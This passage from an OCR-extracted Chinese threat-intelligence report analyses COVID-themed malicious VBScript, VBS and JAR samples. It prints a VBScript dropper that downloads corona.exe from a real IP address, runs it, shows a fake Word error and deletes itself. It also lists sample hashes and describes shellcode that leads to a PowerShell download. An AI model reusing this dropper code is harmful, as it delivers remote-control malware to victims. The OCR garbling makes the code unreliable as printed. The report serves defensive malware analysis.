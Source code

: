 Shellcode解码之后将会通过POST请求从hxxp[:]//185.62.188.204下载后续的远控exe到本地执⾏以控制受害者计算机。  

on error resume next   
set WshShell $=$ CreateObject(\*WScript.Shell)   
Set FSO $=$ CreateObject(Scripting.FileSystemObject")   
Path $=$ WshShell.ExpandEnvironmentStrings(\*%TEMP%") &   
"\Facebook.url"   
set oUrlLink $=$ WshShell.CreateShortcut(Path)   
oUrlLink.TargetPath $=$ "https://facebook.com"   
oUrlLink.Save(S)   
if (FSO.FileExists(Path)) Then   
WScript.Echo “Error!   
else   
Dim xml,ws,db,filepath,URL   
xml $=$ "MSXML2.ServerXMLHTTP.3.0"   
Ws $=$ "WScript.Shell"   
db $=$ "Adodb.Stream"   
Set wshs $=$ createobject(ws)   
filepath $=$ wshs.ExpandEnvironmentStrings("%TEMP%") & "\HhKFW.exe”   
URL $=$ "http://185.62.188.204/hunt/post/corona.exe   
end if   
Call prog   
sub prog dim msxml: Set msxml $=$ createobject(xml) dim stream: Set stream $=$ createobject(db) msxml.Open “GET", URL, False msxml.SetRequestHeader "User-Agent”,   
"vkTSNOQeMcMuTaPWpQUYbp" msxml.Send with stream .type $=1$ .open .write msxml.responseBody savetofle flepath, 2 end with   
wshs.Exec(filepath)   
end sub   
wshs.Popup “Error: File is broken”, 0, “Microsoft Word” $0+48$   
FSO.GetFile(WScript.ScriptFullName).delete 奇安信威助情接中心  

### 恶意脚本类  

奇安信红⾬滴团队捕获多起以疫情为诱饵的脚本类攻击样本，部分样本信息如下以covid22_form.vbs为例，样本运⾏后，会通过Execute执⾏⼀段base64编码的shellcode  

<html><body><table><tr><td>文件名</td><td>MD5</td></tr><tr><td>covid22_form.vbs</td><td>97fe215dd21915ed7530fa0501ad903c</td></tr><tr><td>COVID-19.vbs</td><td>c97e9545291fb0af77630cb52f411caa</td></tr><tr><td>CORONAVIRUS_COVID-19.vbs</td><td>7a1288c7be386c99fad964dbd068964f</td></tr></table></body></html>  

$=$ $=$ $\texttt{1=x}($ NodeTypedValue) : End With: End Function Function r (b) : $=$ $=$ $=$ $=$ $\tt{r}=$ ReadText: .Close: End With:  

经过多次解密，最终执⾏⼀段powershell代码，⽤于从指定web服务器下载3个dat⽂件并保存到本地解密执⾏，以控制受害者计算机。  

![](https://cdn-mineru.openxlab.org.cn/extract/b476e673-eace-488f-9e44-896c8b917ff4/2725b68eb358585a81d32002d820eaec66adf60c9fa12654c69e66d2a6d1b7fd.jpg)  

#### JAR  

JAR⽂件是在安装了JRE等JAVA运⾏环境的操作系统上能直接运⾏的可执⾏程序。由于JAVA具有跨平台的特性，所以这类⽂件可以在安装了JAVA运⾏时库的⼤部分操作系统上运⾏，包括Windows、Linux、macOSX、Android。  

https://mp.weixin.qq.com/s/WBLH564cGAhSB1HOtod4qA  

